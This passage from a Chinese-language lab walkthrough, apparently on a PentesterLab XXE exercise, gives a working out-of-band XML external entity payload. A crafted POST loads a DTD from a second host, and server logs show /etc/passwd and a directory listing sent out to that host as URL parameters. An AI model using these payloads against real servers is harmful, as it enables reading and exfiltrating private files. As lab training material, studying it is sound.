 访问目标服务器。。。引用外部实体。。

	POST /login HTTP/1.1
	Host: 192.168.145.243
	User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: text/xml
	Content-Length: 100
	Referer: http://192.168.145.243/login
	Connection: close
	Upgrade-Insecure-Requests: 1
	
	<?xml version="1.0"?>
	<!DOCTYPE foo SYSTEM "http://192.168.145.225:8000/test.dtd">
	<foo>&e1;</foo>


在本地服务器的日志可以查看信息

	192.168.145.243 - - [05/Sep/2017 13:28:39] "GET /BLAH?root:x:0:0:root:/root:/bin/sh%0Alp:x:7:7:lp:/var/spool/lpd:/bin/sh%0Anobody:x:65534:65534:nobody:/nonexistent:/bin/false%0Atc:x:1001:50:Linux%20User,,,:/home/tc:/bin/sh%0Apentesterlab:x:1000:50:Linux%20User,,,:/home/pentesterlab:/bin/sh%0Aplay:x:100:65534:Linux%20User,,,:/opt/play-2.1.3/xxe/:/bin/false%0Amysql:x:101:65534:Linux%20User,,,:/home/mysql:/bin/false%0A HTTP/1.1" 404 -

* 读取文件2

修改 test.dtd  file的路径改变一下。

	1 <!ENTITY % p1 SYSTEM "file:///opt/play-2.1.3/xxe/">
  	2 <!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://192.168.145.225:8000/id?%p1;'>">
  	3 %p2;



读取到的信息。。URL可以解码一下。

	192.168.145.243 - - [05/Sep/2017 13:36:51] "GET /id?.gitignore%0A.settings%0Aapp%0Aconf%0Alogs%0Aproject%0Apublic%0AREADME%0ARUNNING_PID%0Atarget%0Atest%0A HTTP/1.1" 404 -


如下

	.gitignore
	.settings
	app
	conf
	logs
	project
	public
	README
	RUNNING_PID
	target
	test


----------
